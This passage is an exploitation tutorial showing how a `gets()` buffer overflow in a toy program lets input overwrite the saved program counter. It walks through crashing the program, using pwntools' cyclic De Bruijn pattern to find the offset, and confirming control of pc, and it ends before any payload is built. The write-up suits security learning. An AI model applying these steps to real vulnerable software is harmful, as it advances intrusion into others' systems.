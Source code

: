 The problem with this code is that ``gets()`` doesn't check that the length of the input received
doesn't exceed the size of the buffer used as its destination; in this way it's possible to write
beyond the boundary of the ``name`` variable, in particular overwriting ``ebp`` and ``pc``.
The last one allows to divert the execution flow of the process.

To understand how precisely do that, I try to overwrite it with the ``A``s style

```
$ ./simplest_excalation
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

if I attach ``gdb`` when is waiting for input I will receive this message
after I pressed enter in the original terminal

```
$ gdb -p `pidof simplest_excalation`
...
Program received signal SIGSEGV, Segmentation fault.
...
0x41414141 in ?? ()
```

To find the right offset to overwrite ``pc`` I could try a few inputs with different
lengths; a trick instead is to use
a [De Bruijn Pattern](https://en.wikipedia.org/wiki/De_Bruijn_sequence): a string with
a precise non repeating pattern.

Exists a python toolbox: [pwntools](https://github.com/Gallopsled/pwntools) that provides some command line tools, between them
there is the ``cyclic`` tool that can help me

```
$ cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
$ ./simplest_excalation
What's your name? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
hello, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

now you can see that the faulting address is different

```
0x6161616c in ?? ()
```

``cyclic`` has a lookup functionality that can perform the offset calculation
for us:

```
$ cyclic -l 0x6161616c
44
```

At this point we can double check that we have the offset we are looking for

```
$ python -c "print 'A'*44 + 'BBBB' " | ./simplest_excalation
 ...
$ gdb -p `pidof simplest_excalation`
...
Program received signal SIGSEGV, Segmentation fault.
...
0x42424242 in ?? ()
```
